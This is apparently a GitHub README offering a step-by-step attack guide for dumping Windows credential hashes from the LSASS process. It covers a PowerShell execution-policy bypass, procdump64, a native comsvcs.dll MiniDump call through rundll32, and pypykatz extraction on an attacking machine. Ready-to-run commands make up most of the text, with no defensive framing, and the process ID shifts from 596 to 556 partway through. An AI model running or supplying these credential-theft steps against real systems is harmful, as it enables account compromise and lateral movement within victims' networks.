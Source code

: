 # Lsass-dump

Don't need mimikatz. You can now dump hashes from LSASS by abusing LSASS process and generate a lsass.dmp file. After that we will use pypykatz to extarct the hashes from lsass.dmp file.

# Exploitation

First we must have an administrative privilege to carry this attack.
Upload [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) to target machine.

### Execute Powershell
```markdown
powershell.exe -ep bypass
```

### Get te lassa process id
```markdown
get-process lsass
```

![OnPaste 20220609-133131](https://user-images.githubusercontent.com/106917304/172796695-6b4a5377-2e04-4bfd-9841-453c8a61b8ca.png)

In our case 596 is the lsass process ID.
Execute it with [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) and generate a file contain hashes.

### Dumping Hashes into a file
```markdown
.\procdump64.exe -accepteula -ma 556 lsass.dmp
```

## ALTERNATE

We can also use native DLLs instead of procdump64.exe, this way we don't have to upoad anything on target machine.
```markdown
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 556 C:\Users\Bob\Desktop\lsass.dmp full
```

![OnPaste 20220609-134015](https://user-images.githubusercontent.com/106917304/172800153-21110c80-b8a2-4bb0-a7cb-79e167041ec2.png)


![OnPaste 20220609-135307](https://user-images.githubusercontent.com/106917304/172800664-bd459ddc-50cc-42e6-8380-de12de0b4643.png)



### Using Pypykatz

Now we get that lsass.dmp file to our attacking machine and exctract the hashes using pypykatz.
```markdown
pypykatz lsa minidump lsass.dmp
```

![OnPaste 20220609-135650](https://user-images.githubusercontent.com/106917304/172801351-c615e903-a4b4-41e3-a349-5bd59beb1a18.png)


